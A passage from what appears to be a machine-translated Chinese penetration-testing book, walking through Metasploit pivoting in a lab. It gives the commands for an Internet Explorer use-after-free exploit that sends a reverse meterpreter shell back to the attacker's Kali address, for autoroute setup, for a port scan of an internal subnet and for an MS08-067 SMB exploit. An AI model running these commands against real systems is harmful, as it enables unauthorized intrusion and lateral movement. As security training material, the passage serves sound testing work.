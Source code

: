 对于我们在书中使用的示例，Kali 机器是 192.168.177.170，这是我们设置`LHOST`的值。出于您的目的，您必须使用您拥有的 Kali 地址。我们将在 metasploit 窗口中输入以下命令：

```
use exploit/windows/browser/ie_cgenericelement_uaf
set SRVHOST 192.168.177.170
set LHOST 192.168.177.170
set PAYLOAD windows/meterpreter/reverse_tcp
exploit

```

以下屏幕截图显示了上述命令的结果示例：

![Pivoting](graphics/477-1_12_17.jpg)

正如前面的屏幕截图所示，我们现在有了让用户访问的 URL。出于我们的目的，我们只需将其复制并粘贴到 Internet Explorer 8 中，该浏览器在 Windows XP Service Pack 3 计算机上运行。一旦我们粘贴了它，我们可能需要刷新浏览器几次以使有效负载正常工作；然而，在现实生活中，我们只有一次机会，所以请仔细选择您的漏洞，以便受害者的一次单击就可以完成预期的工作。因此，要成为一名成功的测试人员，有关各种开发的大量实践和知识至关重要。以下屏幕截图显示了利用漏洞完成并创建会话后应看到的示例：

![Pivoting](graphics/477-1_12_18.jpg)

屏幕显示了利用漏洞完成并创建会话后应看到的内容示例（裁剪的文本不重要）

我们现在在机器上有一个外壳，我们想检查它是否是双宿主的。在 MeterMeter 外壳中，输入`ipconfig`查看您利用的机器是否有第二张网卡。下面的屏幕截图显示了我们在本书中利用的机器示例：

![Pivoting](graphics/477-1_12_19.jpg)

正如前面的截图所示，我们很幸运。我们已经连接了第二张网卡和另一个网络供我们探索，现在让我们来做吧。我们要做的第一件事是设置外壳，以路由到我们新发现的网络。这是我们选择 MeterMeter 外壳的另一个原因，它为我们提供了设置路由的能力。在 shell 中，输入`run autoroute –s 10.2.0.0/24`设置到我们 10 网络的路由。命令完成后，我们将查看路由表并输入`run autoroute –p`显示路由表。以下屏幕截图显示了一个示例：

![Pivoting](graphics/477-1_12_20.jpg)

正如前面的截图所示，我们现在有一条通过会话 1 到 10 网络的路线。所以，现在是时候看看我们的 10 网络是什么了。接下来，我们将为第 1 节课添加背景；按*Ctrl*+*z*键可设置会话背景。我们将使用 metasploit 工具中的扫描功能。输入以下命令：

```
use auxiliary/scanner/portscan/tcp
set RHOSTS 10.2.0.0/24
set PORTS 139,445
set THREADS 50
run

```

端口扫描仪效率不高，扫描需要一些时间才能完成。您可以选择直接在 metasploit 中使用 Nmap 扫描仪。输入`nmap –sP 10.2.0.0/24`。一旦确定了带电系统，对目标执行扫描方法。在这里的例子中，我们的目标位于`10.2.0.149`。

以下屏幕截图显示了此扫描结果的示例：

![Pivoting](graphics/477-1_12_21.jpg)

我们现在有了一个目标，我们可以使用前面介绍的许多方法来对付它。出于我们在这里的目的，我们将看看是否可以使用著名的 MS08-067 服务服务器缓冲区溢出攻击目标。在 metasploit 窗口中，在后台设置会话并输入以下命令：

```
use exploit/windows/smb/ms08_067_netapi
set RHOST 10.2.0.149
set PAYLOAD windows/meterpreter/bind_tcp
exploit

```
